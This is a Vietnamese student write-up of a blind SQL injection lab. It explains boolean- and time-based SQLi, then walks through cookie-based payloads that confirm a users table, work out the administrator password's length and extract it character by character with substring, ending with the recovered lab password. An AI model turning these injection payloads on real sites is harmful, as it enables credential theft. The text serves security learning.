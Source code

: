 Người thực hiện: Lê Trần Văn Chương.
Deadline: 31/03 - 02/04/2022.
Mục lục:
- Lỗ hổng SQL Injection Time Based và Boolean Based là gì?
- Lab Blind SQLi
- Code PoC

## Lỗ hổng SQL Injection Time Based và Boolean Based là gì?
- Time-based SQLi đây là 1 kỹ thuật tấn công chậm, mục đích làm trì hoãn việc truy vấn dữ liệu từ client. Trong khoảng thời gian bị trì hoãn đó kẻ tấn công có thể thực hiện các câu truy vấn khác và sau khi có phản hồi thì kẻ tấn công của có thể biết được loại DB mà máy chủ đang dụng.
- Boolean based SQLi cũng là kỹ thuật tấn công chậm, tùy thuộc vào kết quả boolean (True or False), nội dung trong phản hồi HTTP sẽ thay đổi hoặc giữ nguyên. Kết quả cho phép kẻ tấn công đánh giá liệu trọng tải được sử dụng trả về đúng hay sai.
=> Cả 2 loại tấn công trên được gọi chung là Blind SQLi.

## Lab Blind SQLi?
- Lab sử dụng tracking cookie để phân tích và truy vấn SQL. 
- Truy vấn trả về thông báo 'Welcome back!' hoặc không trả về thông báo. (True or False)

1. Ta dùng extension `EditThisCookie` của chrome để có thể bắt được TrackingId và TrackingId của lab là `SHgOlSPYCX3mPVyc` của Lab.

2. Ta thêm truy vấn logic và sao TrackingId để nắm bắt cơ chế của nó.
    `TrackingId' and 1=1`-- => Hiện thông báo `Welcome back!`
    `TrackingId' and 1=0`-- => Không hiện thông báo.

3. Ta thử thêm truy vấn select để xem thử có bảng users, username là administrator và password như lab đã cho không.
    `TrackingId' and(select 'x' from users LIMIT 1)='x'`-- => Hiện thông báo `Welcome back!`. Vậy là có bảng users.
    Sử dụng `Burp suite` để payload username bằng cách sử dụng hàm `substring` để lấy từ ký tự trong username.
    `TrackingId' and(select substring(username,1,1) from users LIMIT 1 )='a'--` => Hiện thông báo `Welcome back!`. Vậy là có username là administrator.
    
    Vì không biết password có đồ dài bao nhiêu nên ta sử dụng LENGHT để có thể kiểm tra độ dài của password
    `TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)>1)='administrator'--` => Hiện thông báo `Welcome back!`. Vậy chứng tỏ password có độ dài > 1 ký tự.
    `TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)>25)='administrator'--` => Không hiện thông báo. Vậy chứng tỏ password có độ dài < 25 ký tự.
    Tiếp tục test
    
    `TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)>20)='administrator'--` => Không hiện thông báo. Vậy chứng tỏ password có độ dài < 20 ký tự.
    `TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)>19)='administrator'--` => Hiện thông báo `Welcome back!`. Vậy chứng tỏ password có độ dài > 19 ký tự.
    `TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)=20)='administrator'--` => Hiện thông báo `Welcome back!`. Vậy chứng tỏ password có độ dài 20 ký tự.

4. Bây giờ, chúng ta đã biết username là administrator và password có đồ dài từ 20 ký tự. Sử dụng `Burp suite` để payload password của administrator bằng cách sử dụng hàm substring để lấy từ ký tự trong password.
    `TrackingId' and(select substring(password,1,1) from users where username = 'administrator' )='a'--`
    Sau khi payload thì ta có được 1 chuỗi password như sau: `vxeddqsvrm6gfo75xs7h`

## Code PoC